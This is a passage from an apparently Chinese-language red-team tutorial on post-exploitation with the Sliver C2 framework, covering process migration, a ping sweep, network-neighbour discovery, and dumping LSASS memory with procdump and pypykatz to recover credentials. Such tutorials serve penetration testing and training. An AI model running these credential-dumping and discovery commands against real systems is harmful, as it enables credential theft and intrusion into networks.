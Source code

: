 ### Persistence | 持久化

进程迁移

```shell
# 查看进程列表信息
ps
# 进程迁移
migrate 3108
# 切换进程
use 244e1361
```

![p9PUTII.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-a01c5c3fc7c2113bbd31fcf13e54faef0a97edcd.png)

### Credential Access | 凭据访问

导出 lsass.dump 信息，离线破解，需要 SYSTEM 权限。

```shell
# 导出lsass信息 [需要system权限]
procdump --pid 664 --save lsass.dump
kali> pypykatz lsa minidump lsass.dump
```

### Discovery | 深入探索

获取网络邻居缓存条目

```shell
# 原生命令
Get-NetNeighbor | Where-Object -Property State -NE "Unreachable" | Select-Object -Property IPAddress
# Sliver中执行
execute -o powershell "Get-NetNeighbor | Where-Object -Property State -NE "Unreachable" | Select-Object -Property IPAddress"
```

![p9PUCvD.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-8b09d920b5e9b4242b135761ad2ec6c31762de3f.png)

Powershell 中进行 ping 扫描探测存活

```shell
# 1
99..102 | foreach { '10.10.1.${_}: $(Test-Connection -TimeToLive 64 -Count 1 -ComputerName 10.10.1.${_} -Quiet)' }

# 2
99..102 | foreach {(New-Object System.Net.NetworkInformation.Ping).Send("10.10.1.${_}", 1000)}
```

其余的和内网渗透一致，这里就不展开了

### Lateral Movement | 横向移动
